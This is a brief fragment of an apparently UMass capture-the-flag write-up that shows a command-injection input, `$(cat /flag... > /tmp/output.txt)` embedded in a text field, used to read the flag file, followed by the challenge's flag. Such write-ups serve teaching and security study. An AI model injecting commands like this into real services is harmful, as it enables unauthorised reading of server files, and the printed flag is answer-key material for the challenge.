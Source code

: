 input = `http://hostname:80/`

One example

![testing](./images/umass/testing.png)

## Obtaining the Flag

Now just read the file using `krabby patty $(cat /flag53958e73c5ba4a66 > /tmp/output.txt)`

![Flag](./images/umass/flag.png) 

Flag: **UMASS{W3lC0m3_t0_Th3_FuTur3_Kr4bS_c28e1089b2}**

Thank You